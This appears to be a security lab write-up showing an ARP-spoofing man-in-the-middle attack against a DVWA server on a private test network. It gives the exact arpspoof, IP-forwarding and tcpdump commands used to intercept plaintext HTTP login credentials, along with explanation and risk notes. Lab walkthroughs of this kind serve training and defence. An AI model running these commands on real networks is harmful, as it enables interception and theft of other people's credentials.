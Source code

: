 ## 🛡️ Attack Simulation 8: Man-in-the-Middle (MITM) via ARP Spoofing + Credential Interception

In this simulation, I successfully performed a **Man-in-the-Middle (MITM)** attack using **ARP spoofing** on a network hosting a vulnerable DVWA server. The objective was to intercept sensitive information such as login credentials by placing myself (the attacker) between a legitimate user (victim) and the web application (target). I achieved this using `arpspoof`, `tcpdump`, and Wireshark.

---

### 🔍 What is a Man-in-the-Middle (MITM) Attack?

A **Man-in-the-Middle (MITM)** attack is a technique where an attacker secretly intercepts and possibly alters communication between two parties without their knowledge. The attacker acts as a **"proxy"**, relaying traffic between the victim and the legitimate destination.

In a **typical LAN-based MITM**, this is achieved using **ARP spoofing**.

---

### 🧠 Understanding ARP Spoofing

- **ARP (Address Resolution Protocol)** maps IP addresses to MAC addresses on a LAN.
- Devices broadcast requests like: "Who has IP 192.168.1.1?"
- The correct device replies with its MAC address.

❗ **ARP spoofing** sends fake ARP replies:
- The attacker pretends to be the **router** to the victim.
- The attacker also pretends to be the **victim** to the router.
- This causes traffic to **pass through the attacker**, allowing interception or manipulation.

---

### 💻 Lab Setup

| Role        | Machine          | IP Address        |
|-------------|------------------|-------------------|
| Attacker    | Kali Linux       | `192.168.1.30`    |
| Victim      | Windows 10       | `192.168.1.109`   |
| Web Server  | Ubuntu (DVWA)    | `192.168.1.188`   |

The victim accesses DVWA hosted on the Ubuntu server. The attacker sits silently on the same network.

---

### 🛠️ Tools Used

- **arpspoof** – Sends fake ARP replies to poison victim/router cache.
- **tcpdump** – Captures network packets silently.
- **Wireshark** – GUI tool to analyze `.pcap` capture files.
- **DVWA** – Vulnerable web app to simulate credential capture.

---

### 🔁 Step-by-Step Attack Process

#### 🧩 Step 1: Enable Packet Forwarding on Attacker (Kali)

To allow the attacker to forward packets between the victim and server (acting like a router):

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

✅ Output:
```
net.ipv4.ip_forward = 1
```

![IP Forwarding](../../screenshots/attack-simulation-8/IP%20forwarding.png)

*Figure 1: Enabling IP Forwarding*

This ensures the attacker does not break the connection between victim and server.

---

#### 🎯 Step 2: Start ARP Spoofing (Victim ↔️ Server)

Using `arpspoof`, I ran **two separate spoofing sessions**:

##### 1️⃣ Spoof Victim (Windows) into thinking attacker is the server:

```bash
arpspoof -i eth0 -t 192.168.1.109 192.168.1.188
```

##### 2️⃣ Spoof Server (Ubuntu) into thinking attacker is the victim:

```bash
arpspoof -i eth0 -t 192.168.1.188 192.168.1.109
```

This poisons both ARP tables and puts me in the middle of their communication.

---

#### 📥 Step 3: Capture Traffic Using tcpdump

While the victim browsed DVWA and attempted login:

```bash
sudo tcpdump -i eth0 -w mitm-capture.pcap
```

This saved the packet stream to a file `mitm-capture.pcap` for offline analysis.

✅ Tip: `tcpdump` silently captures all packets; use `Ctrl+C` to stop when enough is captured.

---

#### 📊 Step 4: Analyze Captured Data in Wireshark

I opened the `.pcap` file in **Wireshark** and used protocol filters to inspect HTTP logins.

![Wireshark](../../screenshots/attack-simulation-8/Wireshark.png)

*Figure 2: Credentials*


This proves that the attacker can **steal login credentials** using ARP spoofing in plaintext traffic.

---

### 🧪 Demonstration Summary

| Step | Tool | Command/Action | Outcome |
|------|------|----------------|---------|
| 1 | `sysctl` | Enable IP forwarding | Forwarding enabled |
| 2 | `arpspoof` | Poison ARP between victim/server | Traffic redirected |
| 3 | `tcpdump` | Capture traffic | Saved packets to `.pcap` |
| 4 | `Wireshark` | Analyze HTTP traffic | Found credentials |

---

### 🔐 Why This Works (And Real-World Risk)

This works **only because**:

- DVWA uses **HTTP (not HTTPS)**, so credentials are visible.
- ARP has **no authentication**, so spoofing is trivial.
- The attacker is on the **same network** as victim and server.

In real-world attacks, MITM allows:

- **Credential theft**
- **Session hijacking (cookie theft)**
- **Malicious file injection**
- **Phishing and redirect attacks**

---

### 🔚 Conclusion

This simulation successfully demonstrated a **realistic LAN-based Man-in-the-Middle (MITM) attack** using ARP spoofing to intercept HTTP login credentials from a vulnerable web app.

Key takeaways:

- ARP spoofing is highly effective in poorly segmented networks.
- Traffic interception is silent and hard to detect without monitoring.
- Credentials sent over HTTP can be viewed in plain text.

> ✅ This completes one of the most **critical red team attack simulations** — demonstrating how a network attacker can gain sensitive access without exploiting server-side vulnerabilities.